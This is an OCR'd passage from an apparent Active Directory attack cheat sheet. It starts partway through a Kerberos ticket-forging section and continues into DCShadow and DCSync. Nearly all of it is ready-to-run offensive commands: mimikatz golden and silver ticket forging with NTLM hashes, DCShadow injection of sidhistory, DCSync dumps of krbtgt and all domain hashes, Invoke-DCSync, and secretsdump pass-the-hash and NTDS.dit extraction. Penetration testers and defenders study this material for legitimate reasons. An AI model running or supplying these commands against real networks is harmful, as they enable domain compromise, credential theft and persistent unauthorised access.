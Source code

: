     # /target t he server/computer name where the service is hosted (ex: share.server.local, sql.server.local:1433, ...)
    # /service - The service name for the ticket (ex: cifs, rpcss, http, mssql, ...)
    kerberos::golden /user:morph3 /domain:domain /sid:domain-sid /target:evilcorp-sql102.evilcorp.local.1433 /service:MSSQLSvc /rc4:service-hash /ptt /id:1103
    sqlcmd -S evilcorp-sql102.evilcorp.local
    select SYSTEM_USER;
    GO
    kerberos::golden /user:JohnDoe /id:500 /domain:targetdomain.com /sid:S-1-5-21-1234567890-123456789-1234567890 /target:targetserver.targetdomain.com /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt

AD Attacks
     DC Shadow

DC Shadow attack aims to inject malicious Domain Controlllers into AD infrastructure so that we can dump actual AD members.

    #Find sid for that user
    wmic useraccount where (name='administrator' and domain='%userdomain%') get name,sid
    #This will create a RPC Server and listen
    lsadump::dcshadow /object:"CN=morph3,OU=Business,OU=Users,OU=ECORP,DC=ECORP,DC=local" /attribute:sidhistory /value:sid
    # Run this from another mimikatz
    lsadump::dcshadow /push
    # After this unregistration must be done
    # Relogin
    lsadump::dcsync /domain:ECORP.local /account:krbtgt
    # Now you must have krbtgt hash
    https://attack.stealthbits.com/how-dcshadow-persistence-attack-works

     DC Sync

    #####
    lsadump::dcsync /domain:domain /all /csv
    lsadump::dcsync /user:krbtgt
    #####
    https://gist.github.com/monoxgas/9d238accd969550136db
    powershell.exe -c "Import-Module .\Invoke-DCSync.ps1; Invoke-DCSync -PWDumpFormat"
    #####
    python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
    python secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit LOCAL
